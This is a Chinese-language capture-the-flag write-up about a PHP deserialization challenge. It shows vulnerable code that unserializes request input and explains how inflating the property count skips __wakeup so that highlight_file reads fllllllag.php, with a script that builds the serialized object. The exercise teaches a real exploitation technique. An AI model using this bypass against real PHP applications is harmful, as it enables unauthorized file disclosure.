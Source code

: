 ![image-20231101165224169](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231101165224169.webp) 



#### 再来一题

**题目：**

```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);				//  这个函数就是一个高亮函数，通俗就是让这代码显示到次页面来
        //flag is in fllllllag.php				// 这里告诉我们flag在这个php文件中
    }
}
if (isset($_REQUEST['x'])) {
    @unserialize($_REQUEST['x']);
} else {
    highlight_file(__FILE__);
}
```

**题目的意思就是说我们要把`fllllllag.php` 放到  这里` ($this->x);` 也就是说让这个``X`等于它 。但是这里有个坑就是 ` __wakeup()`这个魔术方法就是当我们执行反序列化操作的时候，不管给什么值就是X 永远等于file`$this->x = __FILE__;`**

**这里解释一下` __wakeup()` 这个函数。如果对象的魔法函数中存在的``__wakeup方法``，那么之后再调用 `unserilize() 方法`进行反序列化之前则会先调用``__wakeup方法``，但是序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过``__wakeup`的执行。**

#### 以下写一个php反序列化

```php
<?php
highlight_file(__FILE__);
class X
{
    public $x = 'fllllllag.php';
}
    echo serialize(new X);
?>
```
